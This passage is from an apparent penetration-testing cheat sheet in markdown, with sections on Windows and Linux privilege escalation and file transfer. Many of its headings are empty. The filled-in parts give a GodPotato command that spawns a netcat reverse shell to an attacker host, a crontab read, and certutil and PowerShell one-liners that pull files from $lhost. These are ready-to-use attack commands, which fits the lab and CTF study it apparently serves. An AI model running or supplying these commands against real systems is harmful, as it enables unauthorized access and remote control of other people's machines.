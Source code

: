 Reverse shell:
```
.\GodPotato.exe -cmd "nc.exe -t -e C:\Windows\System32\cmd.exe $lhost $lport"
```

## Linux

### Basic

### Automated
Using linPEAS

### Exposed Confidential Information

### Insecure File Permissions

#### CronJobs

```
cat /etc/crontab
```

Add pspy!
#### Password Authentication

### Insecure System Components

#### Setuid Binaries and Capabilities

#### Kernel Exploits

# Metasploit

# Exfiltration Data

## Windows

CMD
```
certutil -urlcache -split -f http://$lhost:$lport/file.ext file.ext
```

Powershell
```
iwr -uri http://$lhost:$lport/file.ext -OutFile file.ext
(New-Object Net.WebClient).DownloadFile("http://$lhost:$lport/file.ext","C:\path\to\file.ext")
Invoke-WebRequest "http://$lhost:$lport/file.ext" -OutFile "file.ext"
```

### SMB

